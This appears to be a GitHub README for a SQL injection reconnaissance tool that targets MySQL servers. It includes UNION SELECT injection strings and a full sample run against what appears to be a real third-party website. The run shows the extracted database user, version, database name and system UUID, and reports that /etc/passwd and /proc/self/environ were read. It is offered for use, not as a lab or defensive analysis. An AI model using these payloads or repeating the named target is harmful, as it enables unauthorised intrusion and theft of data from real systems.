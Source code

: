 # SQL_info
Information Gathering with SQL injection<br>

 ..::==  This Tool Just For N00Bs like YoU =)  ==::.. 
<p>
 SQLinfo ver 0.1 
 This Tool is for information gathering from SQL server targets(MySQL)

	===========
	----=# Info Gathering with SQLi     
	----=# Version: 0.1
	----=# Author : SajjadBnd (Biskoit Pedar)
	----=# Email  : blackwolf@post.com
	----=# Github : http://github.com/Blackwolf-Iran 
	===========
</p>

  Example Link : http://site.com/news.php?id=-1 union select 1,2,3,4-- -


[.] Insert Link > http://www.pksuite.it/mobile/it/news_page.php?id=-171%27+UNION+SELECT+1,2,3,4,5,6,7,8--+
[.] Insert vulnerable column > 3

-----------------[Scan Started]-----------------------

[*] SQLifo Started At > [Tuesday 09. January 2018 - 21:23:12]

[+][21:23:13] Checking Connection :  200 [ok]

[+][21:23:17] Fetching Username ...

[+][21:23:20] User/Host Name :   [u'mdagata@localhost'] 

[+][21:23:20] Fetching Version ...

[+][21:23:23] Version :   [u'5.1.73'] 

[+][21:23:23] Fetching Database Name ...

[+][21:23:25] DATABASE :   [u'pksuite_db'] 

[+][21:23:25] Fetching CONNECTION_ID ...

[+][21:23:27] CONNECTION_ID :   [u'64330'] 

[+][21:23:27] Fetching Hostname ...

[+][21:23:29] Hostname :   [] 

[+][21:23:29] Fetching Tmp_Dir ...

[+][21:23:32] Tmp Dir :   [] 

[+][21:23:32] Fetching DataDire ...

[+][21:23:34] data dir :   [] 

[+][21:23:34] Fetching Base Dir ...

[+][21:23:36] Base Dir :   [] 

[+][21:23:36] Fetching System UUID Key ...

[+][21:23:39] SYSTEM UUID Key :   [u'5ba9e3f0-f583-11e7-b8ff-000c291ea817'] 

[+][21:23:39] Fetching System User ...

[+][21:23:41] SYSTEM User :   [u'mdagata@localhost'] 

[+][21:23:41] Fetching Session User ...

[+][21:23:43] Sesion User :   [u'mdagata@localhost'] 

[+][21:23:43] Check if Symlink Enabled or Disabled ...

[+][21:23:45] Symlink :   [u'DISABLED'] 

[+][21:23:45] Checking SSL ...

[+][21:23:47] SSL :   [u'DISABLED'] 

[+][21:23:47] READING /etc/passwd ...

[+][21:23:50] File /etc/passwd :  Saved ! passwd.html - Check it =) 

[+][21:23:50] READING /proc/self/environ ...

[+][21:23:52] File proc/self/environ : Saved ! environ.html - Check it =) 


 [+] Good Bye !
 [+] SQLinfo [Tuesday 09. January 2018 - 21:23:52]

   Exiting ... !
   
#################################################################

@SajjadBND
Enjoy it ! =)
